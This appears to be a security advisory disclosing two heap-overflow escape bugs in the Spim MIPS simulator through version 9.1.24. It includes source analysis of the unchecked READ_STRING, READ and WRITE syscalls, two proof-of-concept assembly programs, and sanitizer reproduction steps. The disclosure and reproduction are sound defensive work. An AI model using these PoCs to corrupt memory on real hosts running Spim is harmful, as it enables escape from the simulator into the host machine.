





### 1. Description

Spim is a self-contained simulator that runs MIPS32 programs. It reads and executes assembly language programs written for this processor. Spim also provides a simple debugger and a minimal set of operating system services. Spim does not execute binary (compiled) programs.

We have discovered two escape vulnerabilities in the Spim simulator, which allow attackers to corrupt the host machine's memory through heap overflow.

Project Location: [https://sourceforge.net/p/spimsimulator/code/HEAD/tree/](https://sourceforge.net/p/spimsimulator/code/HEAD/tree/)  
Affected Versions: <= 9.1.24

### 2. Analysis

The Spim simulator creates the virtual machine's memory during startup via the `make_memory` function, allocating memory for segments such as `text_seg`, `data_seg`, and `stack_seg`.

```c
// spim-9.1.24:/CPU/spim-utils.cpp:116
void make_memory(int text_size, int data_size, int data_limit, int stack_size,
                 int stack_limit, int k_text_size, int k_data_size,
                 int k_data_limit) {
  if (text_seg == NULL)
    text_seg = (instruction **)xmalloc(BYTES_TO_INST(text_size));
  else {
    free_instructions(text_seg, (text_top - TEXT_BOT) / BYTES_PER_WORD);
    text_seg = (instruction **)realloc(text_seg, BYTES_TO_INST(text_size));
  }
  ...
  data_size = ROUND_UP(data_size, BYTES_PER_WORD); /* Keep word aligned */
  if (data_seg == NULL)
    data_seg = (mem_word *)xmalloc(data_size);
  else
    data_seg = (mem_word *)realloc(data_seg, data_size);
  ...
  stack_size = ROUND_UP(stack_size, BYTES_PER_WORD); /* Keep word aligned */
  if (stack_seg == NULL)
    stack_seg = (mem_word *)xmalloc(stack_size);
  else
    stack_seg = (mem_word *)realloc(stack_seg, stack_size);
...
}
```

We can use a diagram to illustrate the memory mapping between the virtual machine and the host machine.

<div align="center">

</div>

The virtual machine's memory access is translated to the host machine's address space via the `mem_reference` function.

```c
void *mem_reference(mem_addr addr) {
  if ((addr >= TEXT_BOT) && (addr < text_top))
    return addr - TEXT_BOT + (char *)text_seg;
  else if ((addr >= DATA_BOT) && (addr < data_top))
    return addr - DATA_BOT + (char *)data_seg;
  else if ((addr >= stack_bot) && (addr < STACK_TOP))
    return addr - stack_bot + (char *)stack_seg;
  else if ((addr >= K_TEXT_BOT) && (addr < k_text_top))
    return addr - K_TEXT_BOT + (char *)k_text_seg;
  else if ((addr >= K_DATA_BOT) && (addr < k_data_top))
    return addr - K_DATA_BOT + (char *)k_data_seg;
  else {
    run_error("Memory address out of bounds\n");
    return NULL;
  }
}
```

### BUG1: Out-of-Bounds Write in `read_input` Function

The Spim simulator implements 17 system calls for the MIPS architecture, including basic I/O, memory expansion, program exit, file opening, and reading/writing.

```c
// spim-9.1.24:/CPU/syscall.cpp:101
int do_syscall() {
#ifdef _WIN32
  windowsParameterHandlingControl(0);
#endif

  /* Syscalls for the source-language version of SPIM.  These are easier to
     use than the real syscall and are portable to non-MIPS operating
     systems. */

  switch (R[REG_V0]) {
    ...
    case READ_STRING_SYSCALL: {
      read_input((char*)mem_reference(R[REG_A0]), R[REG_A1]);
      data_modified = true;
      break;
    }
    ...
  }
}
```

We analyzed the `READ_STRING_SYSCALL` system call, which takes two parameters: the `A0` register specifies the starting address in memory to write to, and the `A1` register specifies the length of the write. The vulnerability arises because there is no boundary check on the memory write, leading to a memory overflow. The overflow can corrupt the host machine's memory. We provide `poc.asm` and illustrate the vulnerability with the following diagram.

<div align="center">

</div>

- poc.asm

```asm
.data
msg:   .asciiz "proof of concept of **READ_STRING_SYSCALL** memory overflow\n"

.text
.globl main
main:   
        li  $v0, 4
        la  $a0, msg
        syscall          # print message

        li  $v0, 8
        lui $a0, 0x7fff
        ori $a0, 0xfffc  # set A0 0x7fff (0x80000000 - 4)
        li  $a1, 0x8     # set A1 8
        syscall          # read_input(0x80000000-4, 8)
```

- Reproduction Steps

```bash
(reproduce) $ svn checkout https://svn.code.sf.net/p/spimsimulator/code/ spimsimulator
(reproduce) $ cd spimsimulator/spim/
(reproduce) $ LDFLAGS=-fsanitize=address CXXFLAGS=-fsanitize=address make
(reproduce) $ printf 'ABCDE' \
              | ./spim -exception_file ../CPU/exceptions.s ../../poc1.asm
```



### BUG2: Bypass Check in `READ_SYSCALL` and `WRITE_SYSCALL` Leading to Out-of-Bounds Read/Write

This vulnerability occurs in the `READ_SYSCALL` and `WRITE_SYSCALL` functions. Before performing memory read/write operations, the code checks the validity of the memory segment's end address via `(void)mem_reference(R[REG_A1] + R[REG_A2] - 1);`. However, this check is flawed.

```c
int do_syscall() {

  switch (R[REG_V0]) {
    ...
    case READ_SYSCALL: {
      /* Test if address is valid */
      (void)mem_reference(R[REG_A1] + R[REG_A2] - 1);
      R[REG_RES] = read(R[REG_A0], mem_reference(R[REG_A1]), R[REG_A2]);
      data_modified = true;
      break;
    }

    case WRITE_SYSCALL: {
      /* Test if address is valid */
      (void)mem_reference(R[REG_A1] + R[REG_A2] - 1);
      R[REG_RES] = write(R[REG_A0], mem_reference(R[REG_A1]), R[REG_A2]);
      break;
    }
    ...
  }

}
```

We can illustrate this vulnerability with the following diagram. An attacker can set the starting address of the read/write operation to a valid address in the virtual machine's memory and the end address to another valid address, but the starting and ending addresses are in different memory segments, causing an overflow into the host machine's memory.

<div align="center">

</div>

- poc2.asm

```asm
.data
msg:   .asciiz "proof of concept of **WRITE_SYSCALL** and **READ_SYSCALL**   memory overflow\n"

.text
.globl main
main:   
        li  $v0, 4
        la  $a0, msg
        syscall          # print message

        li  $v0, 14      # READ_SYSCALL
        li  $a0, 0       # stdin
        lui $a1, 0x7fff
        ori $a1, 0xfffc  # set A2 0x7ffffffc (0x80000000 - 4)
        li  $a2, 0x8     # set A1 8          (0x80000000 + 4)
        syscall          # read(0, 0x80000000-4, 8)
```

- Reproduction Steps

```bash
(reproduce) $ svn checkout https://svn.code.sf.net/p/spimsimulator/code/ spimsimulator
(reproduce) $ cd spimsimulator/spim/
(reproduce) $ LDFLAGS=-fsanitize=address CXXFLAGS=-fsanitize=address make
(reproduce) $ printf 'ABCDE' \
              | ./spim -exception_file ../CPU/exceptions.s ../../poc2.asm
```



